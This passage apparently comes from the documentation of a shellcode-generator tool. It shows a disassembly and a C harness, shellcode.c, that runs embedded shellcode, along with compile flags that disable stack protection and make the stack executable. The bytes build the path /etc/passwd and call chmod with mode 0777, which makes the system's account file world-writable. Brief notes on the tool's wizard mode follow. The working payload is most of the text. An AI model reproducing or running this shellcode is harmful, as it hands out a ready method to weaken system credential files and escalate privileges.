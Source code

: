 ```C shellcode.c
  20:	43                   	inc    %ebx
  21:	43                   	inc    %ebx
  22:	43                   	inc    %ebx
  23:	43                   	inc    %ebx
  24:	43                   	inc    %ebx
  25:	53                   	push   %ebx
  26:	5b                   	pop    %ebx
  27:	c1 eb 08             	shr    $0x8,%ebx
  2a:	53                   	push   %ebx
  2b:	68 2a 70 61 73       	push   $0x7361702a
  30:	5b                   	pop    %ebx
  31:	43                   	inc    %ebx
  32:	43                   	inc    %ebx
  33:	43                   	inc    %ebx
  34:	43                   	inc    %ebx
  35:	43                   	inc    %ebx
  36:	53                   	push   %ebx
  37:	68 2a 65 74 63       	push   $0x6374652a
  3c:	5b                   	pop    %ebx
  3d:	43                   	inc    %ebx
  3e:	43                   	inc    %ebx
  3f:	43                   	inc    %ebx
  40:	43                   	inc    %ebx
  41:	43                   	inc    %ebx
  42:	53                   	push   %ebx
  43:	89 e3                	mov    %esp,%ebx
  45:	cd 80                	int    $0x80
  47:	b0 01                	mov    $0x1,%al
  49:	b3 01                	mov    $0x1,%bl
  4b:	cd 80                	int    $0x80



compile example: gcc -ggdb -static -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o shellcode shellcode.c
*/
 
int main(){
unsigned char shellcode[]= "\x6a\x0a\x58\x40\x40\x40\x40\x40\x50\x58\x68\x8b\x90\xff\x01\x5b\x43\x43\x43\x43\x43\x53\x59\xc1\xe9\x10\x68\x8b\x73\x77\x64\x5b\x43\x43\x43\x43\x43\x53\x5b\xc1\xeb\x08\x53\x68\x2a\x70\x61\x73\x5b\x43\x43\x43\x43\x43\x53\x68\x2a\x65\x74\x63\x5b\x43\x43\x43\x43\x43\x53\x89\xe3\xcd\x80\xb0\x01\xb3\x01\xcd\x80";
fprintf(stdout,"Length: %d\n\n",strlen(shellcode));
    (*(void(*)()) shellcode)();
}
```
As you can see in output code "<strong>shellcode.c</strong>" you are able to compile and test shellcode with this command:
```
gcc -ggdb -static -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o shellcode shellcode.c
```
result:
<center>{% img http://zsc.z3r0d4y.com/images/Snapshot_2015-07-27_132048.png %}</center>
<br><h3>Wizard Switch</h3>
With <strong>-wizard</strong> switch you are able to generate shellcode without long ARGVs, software will ask you for information.
<center>{% img http://zsc.z3r0d4y.com/images/Snapshot_2015-07-27_132639.png %}</center>
<br><strong>Note</strong>: While you are using <strong>-wizard</strong> switch, if you push "<strong>Enter</strong>" without typing anything, the default value will be set on the varible.
<br><strong>Note</strong>: With entering "<strong>list</strong>", List of values will be shown.
<br><br><br><br><br>
